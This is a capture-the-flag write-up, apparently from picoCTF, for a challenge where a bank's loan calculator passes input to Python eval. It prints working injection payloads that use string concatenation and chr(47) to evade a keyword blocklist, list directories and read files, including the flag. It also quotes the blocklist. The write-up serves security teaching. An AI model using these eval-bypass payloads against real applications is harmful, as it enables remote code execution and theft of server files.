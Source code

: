 # Description

ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?
The website is running Here.

# Solution

Once connected to the website you can try to use: `__import__('os').popen('ls').read()`

However, the first error will tell you that you can't use OS. When looking at the source code of the website you can see this in a comment near the top: `blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind`

So to get around that you can do: `__import__('o'+'s').popen('l' + 's').read()`. The result is `app.py static templates` so you can just cat everything in the current directory with `__import__('o'+'s').popen('c' + 'at *').read()` which will give a better understanding of the code used and what is blocked.

If you look at the second hint it mentions "The flag file is /flag.txt" but you don't even need that you can traverse to the different directories or just use `ls /` in the root directory to where the flag can be seen: `__import__('o'+'s').popen('l' + 's ' + chr(47)).read()`. For the representation of / in ascii it is 47 so you can use the chr function to get around it by detecting the / with chr(47).

Result: app bin boot challenge dev etc flag.txt home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var 

Once you know that the flag is indeed in the / directory you can just cat out all of the contents with * with this command: `__import__('o'+'s').popen('c' + 'at ' + chr(47) + '*').read()`

Flag: `picoCTF{D0nt_Use_Unsecure_f@nctionsd06...}`